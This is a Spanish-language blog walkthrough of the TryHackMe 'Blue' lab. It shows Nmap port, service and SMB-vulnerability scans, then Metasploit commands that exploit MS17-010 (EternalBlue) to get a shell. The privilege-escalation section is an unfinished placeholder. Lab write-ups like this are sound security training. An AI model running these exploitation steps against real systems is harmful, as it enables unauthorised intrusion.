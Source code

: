 ```yaml
---
title: Blue - TryHackMe
published: true
---
```


En esta ocasión vamos a resolver la máquina _Blue_ de _TryHackMe_. Esta es una máquina fácil tanto en la intrusión como en la escalada de privilegios, por lo que no supondrá ninguna complicación a la hora de realizarla. Ya por el nombre de la máquina, podemos darnos una idea de por donde van los tiros, ¿quizá `EternalBlue`?

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/1.png)

### [](#header-3)Fase De Reconocimiento

Primeramente, vamos a utilizar la herramienta _Nmap_ para determinar que puertos están abiertos así como identificar la versión y servicios que corren en el activo. Para determinar que puertos están abiertos podemos realizar lo siguiente:

```
nmap -p- --open -T5 -v -n <dirección IP> -oG allPorts
```
 
Y en caso de que el escaneo tarde demasiado en completar, tenemos esta otra alternativa:
  
``` 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <dirección IP> -oG allPorts
```

A continuación se explican los parámetros utilizados en el escaneo de puertos con _Nmap_:
  
* p - Escanea todo el rango de puertos (65535 en total)
* open - Nos indica todos aquellos puertos que están abiertos (o posiblemente abiertos)
* T5 - La plantilla de temporizado nos permite agilizar nuestro escaneo, este valor puede ir desde 0 hasta 5, cabe aclarar que a mayor sea el valor de la plantilla, "generaremos más ruido  ", pero no pasa nada ¿no? Al fin y al cabo estamos practicando en un entorno controlado y aquí somos todos `White Hat`
* v - _Verbose_, reporta lo encontrado por consola
* n - No aplicar _resolución DNS_
* sS - Escaneo _TCP SYN_
* min-rate - Emitir paquetes no más lentos que _valor_ por segundo
* vvv - Triple _verbose_, para obtener mayor información por consola
* Pn - No aplicar _host discovery_
* oG - Exportar el escaneo en formato "_grepeable_"

  
Para determinar la versión y servicios que corren bajo estos puertos podemos realizar lo siguiente:

```  
nmap -sC -sV -p 135,139,445,3389,49152,49153,49154,49158,49160 <dirección IP> -oN targeted
```
  
A continuación se explican los parámetros utilizados en el escaneo de versiones y servicios con _Nmap_:

* sC - Scripts básicos de enumeración
* sV - Versión y servicios que corren bajo los puertos encontrados
* p - Especificamos que puertos queremos analizar (los que encontramos abiertos en el paso anterior)
* oN - Exportar el escaneo en formato _Nmap_

Entre las preguntas que nos realiza la plataforma en esta primera fase, se encuentra:

* ¿Cuántos puertos están abiertos con un número de puerto inferior a 1000?
* ¿A qué es vulnerable esta máquina?

Estas preguntas son bastante fáciles de responder si realizamos un buen escaneo con _Nmap_. Para responder a la primera pregunta no hay donde perderse, bastará con introducir cuántos puertos abiertos, inferiores a 1000, hemos detectado con nuestro escaneo; recordemos que existen en total 65535 puertos posibles. Para responder a la segunda pregunta, tendremos que realizar un escaneo adicional, ya que se nos pregunta, a que ataque es vulnerable la máquina; a modo de pista, la plataforma nos da un ejemplo de respuesta: _ms08-067_.

Si recordamos, lo más relevante que encontramos con nuestro escaneo de versiones y servicios con _Nmap_, es el puerto `445`, o servicio `Samba`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/2.png)

De modo que procederemos a utilizar los scripts específicos con los que cuenta _Nmap_, para detectar vulnerabilidades en un servicio `Samba`.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/3.png)

Para poder utilizarlos podemos hacer lo siguiente:

```  
nmap --script="smb-vuln*" -p 445 10.10.229.101 -oN smbScan
```

A continuación se explican los parámetros utilizados en el escaneo de vulnerabilidades del servicio `Samba` con _Nmap_:
  
  * --script - Proporcionamos el script que queremos emplear; en este caso, como no teníamos un script en particular a utilizar, a través de expresiones regulares, indicamos que queremos utilizar todos aquellos script que comiencen por _smb-vuln_
  * p - Especificamos a que puertos queremos aplicar este escaneo
  * oN - Exportar el escaneo en formato _Nmap_

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/4.png)

Como podemos darnos cuenta, esta máquina es vulnerable a MS17-010, o también conocido como `EternalBlue`.

### [](#header-3)Fase De Explotación

Para esta segunda fase, _TryHackMe_ realiza la fase de explotación con el uso de `Metasploit`, no obstante, no recomiendo acostumbrarse a utilizar herramientas automatizadas, ya que perdemos bastante el control sobre lo que está pasando por detrás, de modo que no aprendemos; sin embargo, en esta máquina en concreto, no es posible realizar un procedimiento manual, ya que la máquina `Blue`, está pensada para ser explotada mediante el uso de `Metasploit`.

Para hacer uso de `Metasploit` tendremos que abrir la aplicación, para ello haremos lo siguiente:

```  
msfconsole
```

Una vez hemos abierto `Metasploit`, procederemos a buscar aquello que queremos explotar, en este caso, MS17-010, o `EternalBlue`, cualquiera de las dos formas es válidas.

```    
search eternalblue
search ms17-010
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/5.png)

Posteriormente elegiremos el _exploit_ a utilizar; de hecho, una de las preguntas de la plataforma justamente es, introducir el _exploit_ que vamos a utilizar.

```      
use exploit/windows/smb/ms17_010_eternalblue
```  

Una vez hemos seleccionado el _exploit_, procederemos a configurar tanto el `LHOST` como el `RHOST`, que dicho de otra forma, procederemos a introducir nuestra _IP_, y la _IP_ de la máquina víctima.

```      
show options
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/6.png)

```      
set LHOST <nuestra IP> 
set RHOST <IP víctima>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/7.png)

Una vez hemos configurado dichos parámetros, bastará con empezar con el ataque, consiguiéndonos `Metasploit` una shell dentro de la máquina víctima.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-04-Blue-TryHackMe/8.png)

### [](#header-3)Escalada De Privilegios

ABC
